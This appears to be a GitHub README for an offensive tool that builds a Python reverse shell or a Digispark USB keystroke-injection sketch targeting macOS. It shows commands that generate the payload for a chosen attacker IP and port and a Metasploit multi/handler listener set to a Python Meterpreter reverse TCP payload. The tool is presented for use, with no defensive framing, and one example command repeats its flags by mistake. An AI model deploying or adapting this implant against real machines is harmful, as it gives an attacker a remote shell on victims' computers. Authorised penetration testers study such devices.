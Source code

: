 ## Digispark reverse shell

The scripts creates either reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.

## What is digispark?
Digispark is a Attiny85 based microcontroller

## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the digispark module, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs:
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p port -i IP Address -p port -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor



